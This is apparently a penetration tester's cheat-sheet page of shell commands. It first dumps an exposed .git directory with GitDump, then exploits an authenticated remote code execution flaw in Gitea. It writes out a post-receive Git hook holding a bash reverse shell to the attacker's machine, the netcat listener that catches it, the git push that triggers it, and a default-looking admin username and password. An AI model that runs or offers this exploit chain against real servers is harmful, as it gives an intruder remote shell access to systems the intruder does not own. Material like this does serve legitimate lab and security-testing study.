 ```yaml
---
category: Uncategorized
tags: []
---
```

https://pentestbook.six2dez.com/enumeration/webservices/github

```bash - kali
git clone https://github.com/Ebryx/GitDump
```

```bash - kali
cd GitDump
```

```bash - kali
python3 git-dump.py http://$TARGET/.git/
```

```bash - kali
cd output && git checkout -- .
```

```bash - kali
git log
```

#### Gitea

https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/


sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive

```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```

```bash - kali
touch README.md
```

```bash - kali
git init
```

```bash - kali
git add README.md
```

```bash - kali
git commit -m "Initial commit"
```

```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

```bash - kali
git push -u origin master
```

```bash - kali
admin1
```

```bash - kali
adminadmin
```
